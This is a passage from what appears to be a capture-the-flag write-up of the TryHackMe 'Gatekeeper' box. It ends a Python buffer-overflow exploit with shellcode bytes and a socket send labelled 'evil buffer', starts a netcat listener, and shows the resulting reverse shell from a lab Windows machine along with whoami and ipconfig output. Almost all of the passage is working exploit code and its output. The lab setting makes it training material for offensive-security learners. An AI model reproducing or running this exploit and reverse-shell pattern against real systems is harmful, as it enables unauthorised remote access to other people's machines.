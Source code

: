 ```py
shellcode += b"\xc8\x46\xb3\x7c\x4b\x62\x4c\x7b\x53\x07\x49"
shellcode += b"\xc7\xd3\xf4\x23\x58\xb6\xfa\x90\x59\x93"

buffer = payload + nop + shellcode

try:
	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
		s.connect((ip, port))

		print('[+] Sending evil buffer...')
		s.send(buffer + b'\r\n') # \r means the Enter key, \n means new line character
		print('[+] Done!')
except:
	print('[-] Unable to send/connect to the target.')
```

**Now, our exploit has completed! Let's try to get a shell from our debugging virtual machine!**

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# nc -lnvp 443                
listening on [any] 443 ...
```

- Run the exploit:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python3 exploit.py
[+] Sending evil buffer...
[+] Done!
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# nc -lnvp 443                
listening on [any] 443 ...
connect to [192.168.183.141] from (UNKNOWN) [192.168.183.144] 50460
Microsoft Windows [Version 10.0.19044.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Student\Desktop>whoami && ipconfig
whoami && ipconfig
desktop-n71nbkr\student

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : localdomain
   Link-local IPv6 Address . . . . . : fe80::65d6:b86d:9d3a:c6d7%11
   IPv4 Address. . . . . . . . . . . : 192.168.183.144
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.183.2
```
